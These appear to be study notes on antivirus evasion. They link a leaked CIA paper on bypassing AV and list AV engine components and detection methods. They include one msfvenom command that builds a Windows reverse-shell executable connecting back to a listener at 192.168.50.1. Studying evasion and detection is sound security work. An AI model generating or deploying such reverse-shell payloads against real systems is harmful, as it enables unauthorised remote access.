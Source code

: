 
Future reads: [BypassAV](https://web.archive.org/web/20210317102554/https://wikileaks.org/ciav7p1/cms/files/BypassAVDynamics.pdf)
###  AV Engines and Components

Modern AV Components:

- File Engine
- Memory Engine
- Network Engine
- Disassembler
- Emulator/Sandbox
- Browser Plugin
- Machine Learning Engine

### Detection Methods

- Signature-based Detection
- Heuristic-based Detection
- Behavioral Detection
- Machine Learning Detection

##### Generating Metasploit payload with msfvenom 

**Always update because Metasploit is updated frequently**

Generating a malicious PE containing a meterpreter shell

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f exe > binary.exe`

Uploading this to VirusTotal lights up VT like an xmas tree.

